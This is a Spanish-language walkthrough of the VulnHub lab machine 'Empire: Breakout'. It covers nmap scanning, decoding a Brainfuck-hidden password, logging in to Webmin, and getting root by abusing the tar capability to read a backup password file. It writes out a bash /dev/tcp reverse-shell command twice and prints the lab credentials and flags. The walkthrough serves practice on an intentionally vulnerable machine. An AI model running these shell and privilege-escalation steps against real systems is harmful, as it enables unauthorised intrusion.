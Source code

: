 Platform: Vulnhub
machine: [Empire: Breakout ~ VulnHub](https://www.vulnhub.com/entry/empire-breakout,751/)
Download (Mirror)**: [https://download.vulnhub.com/empire/02-Breakout.zip](https://download.vulnhub.com/empire/02-Breakout.zip)

Herramientas:
[[ARP-Scan]]
[[Ping]]
[[NMAP]]
[[Enum4linux]]
[[Nc Netcat]]
[[Tratamiento de la TTY]]

![[Vulnhub - EMPIRE Breakout - Machine.png]]
Herramientas:
	- arp-scan
	- ping
	- nmap
	- Visor de codigo del navegador
	- https://www.dcode.fr/brainfuck-language
	- enum4linux
	- nc -lvnp 1234
	- bash -i >/dev/tcp/192.168.1.144/1234 0>&1
	- con getcap -r / 2>dev/null
	- ./tar -cf {nombre fichero} /var/backups/.old_pass.bak
Puertos:
	#Puerto80 
	#puerto10000
	#puerto20000


reconocimiento de la red:

![[Vulnhub - EMPIRE Breakout - Reconocimeinto de la red.png]]
Ping a la maquina para ver si hay conectividad y el TTL:
![[Vulnhub - EMPIRE Breakout - Ping y ver TTL.png]]

Conectividad y TTL 64--> maquina LINUX
Nmap:
sudo nmap -p- --open -sS -Pn -sC -sV 192.168.1.136

![[Vulnhub - EMPIRE Breakout - Nmap.png]]

Encontramos los  puertos:
80 con un apache 2.4.51
139 Samba 4.6.2
445 Samba 4.6.2
10000 http webmin miniserv 1.891
20000 http webmin MiniServ 1.830

Accedemos al puerto 80:

![[Vulnhub - EMPIRE Breakout - Web apache 2 por defecto.png]]
web por defecto de Apache 2 en Debian

Vamos a revisar el código fuente:
![[Vulnhub - EMPIRE Breakout - Codigo extraño en el codigo fuente.png]]
nos encontramos con esto:

<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
-->

por lo que entendemos con el mensaje que :
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
es un mensaje encriptado

Decodeamos web para decodear este mensaje (https://www.dcode.fr/brainfuck-language):

![[Vulnhub - EMPIRE Breakout - Decode Message.png]]
y obtenemos:
.2uqPEfj3D<P'a-3

Accedemos al puerto 10000:
![[Vulnhub - EMPIRE Breakout - Acceso al puerto 10000.png]]
volvemos a acceder ahora con SSL (según mensaje)
y vemos un panel de Login:
![[Vulnhub - EMPIRE Breakout - Panel de Login.png]]

Revisamos el puerto 20000:
![[Vulnhub - EMPIRE Breakout - Acceso al puerto 20000.png]]
Usamos la herramienta Enum4 Linux:
comando:
enum4linux -a 192.168.1.136 y obtengo este resultado:
![[Vulnhub - EMPIRE Breakout - Enumeracion de usuarios con enun4linux.png]]
Ha obtenido el usuario cyber
vamos a intentar entrar con el usuario cyber y al contraseña obtenida anteriormente en el panel de login:

cyber:.2uqPEfj3D<P'a-3
y accedemos al panel:

![[Vulnhub - EMPIRE Breakout - Panel de mailbox.png]]

hay una opcion en el panel que es para ejecutar comandos:
![[Vulnhub - EMPIRE Breakout - Ejecutamos comandos desde el panel.png]]

de aquí obtenemos la primera flag del usuario:
User flag: 3mp!r3{You_Manage_To_Break_To_My_Secure_Access}

ahora podemos lanzar una reverse bash desde aquí y recibirla en nuestro terminal:
nos ponemos a la escucha:
comando 
nc -lvnp 1234
y en la victima ejecutamos:
bash -i >/dev/tcp/192.168.1.144/1234 0>&1

Y obtenemos acceso:
![[Vulnhub - EMPIRE Breakout - Ejecutar reverse shell.png]]

Obtenemos la reverse Shell:
![[Vulnhub - EMPIRE Breakout - Obtencion de reverse Shell.png]]
volvemos a ver la flag del usuario:
![[Vulnhub - EMPIRE Breakout - User Flag from the machine.png]]


nuestro usuario es cyber
![[Vulnhub - EMPIRE Breakout - User cyber.png]]

hacemos un pequeño tratamiento de la TTY con el comando:
script /dev/null -c bash
Vulnhub - EMPIRE Breakout - 
tenemos que escalar privilegios:
sudo -l no funciona
![[Vulnhub - EMPIRE Breakout - Escalado sudo -l.png]]

Vemos las capabilities:
con getcap -r / 2>dev/null
![[Vulnhub - EMPIRE Breakout - Capabilitis del usuario.png]]

Y encontramos  que tenemos acceso a tar

![[Vulnhub - EMPIRE Breakout - Fichero backup old oculto.png]]

Encontramos el ficheor oculto en /var/backups con el nombre .old_pass.bak
usamos tar para leerlo

![[Vulnhub - EMPIRE Breakout - Encontramos fichero backups old.png]]

con el comando ./tar -cf {nombre fichero} /var/backups/.old_pass.bak
extraemos
listamos lo extraido:
![[Vulnhub - EMPIRE Breakout - Fichero backup descomprimido.png]]

y obtenemos lo siguiente:
0000600000000000000000000000002114134001114014303 0ustar  rootrootTs&4&YurgtRX(=~h  

Accedemos con la contraseña de root que hemos obtenido:
sudo root:
root:Ts&4&YurgtRX(=~h  

![[Vulnhub - EMPIRE Breakout - Acceso root.png]]
Root flag:
![[Vulnhub - EMPIRE Breakout - Root flag.png]]
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}




